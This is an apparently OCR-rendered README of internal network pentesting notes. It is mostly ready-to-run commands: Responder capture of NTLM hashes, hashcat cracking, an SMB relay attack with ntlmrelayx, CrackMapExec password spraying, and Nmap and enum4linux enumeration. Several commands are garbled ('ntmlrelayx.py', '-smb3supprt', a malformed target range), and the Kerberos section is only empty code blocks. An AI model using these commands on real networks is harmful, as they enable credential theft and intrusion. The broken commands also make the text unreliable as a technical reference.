 # Internal Network Pentesting
Notes for Internal Network Pentesting 


###  Nmap

```bash
nmap -sn 192.168.1.1/24
```
```bash
nmap -sV -sC -A -p- IP-Address
```

###  Responder

```bash
responder -I <interface> -rdw
```
- After capturing NTLM Hash (copy the captured hash into .txt format) copy full hash from username to end of the hash.

```bash
hashcat -m 5600 hash.txt /path/to/wordlist.txt
```

### SMB Relay attack
- Make sure you turn off the SMB and HTTP from responder configuration

```bash
nano /etc/responder/Responder.conf
```
- For this attack you need to have ntml hash, use can use responder for capture hash.
- Scanning for Signing disabled machines, make sure you save the host example : TargetHost.txt
```bash
nmap --script=smb2-security-mode.nse -p 445 192.168.1.1/24,134 -Pn --open | tee -a target.txt
```

- Use ntlmrelayx
```bash
python3 ntmlrelayx.py -tf /path/to/target_host_nmap_above -smb3supprt
```

### CrackMapExec 

```bash
crackmapexec smb "10.0.9.0/24" -u "FirstName.LastName" -p /path/to/password.txt
```

### Active Directory
-Nmap. 
```bash
nmap -Pn -sV -sC -oN top IP-Address
```
- Look for ports such as :
```bash
53 → DNS
139,135,445 → RPC or SMB
3389 → RDP or domain controller
88 → kerberos
389 → Ldap
636 → ldaps
445 → SMB
```
enum4linux
```bash
enum4linux -A IP-Address
```
 #### Abusing Kerberos.
```bash

```
```bash

``````bash

```
```bash

``````bash

```
```bash

``````bash

``````bash

``````bash

```

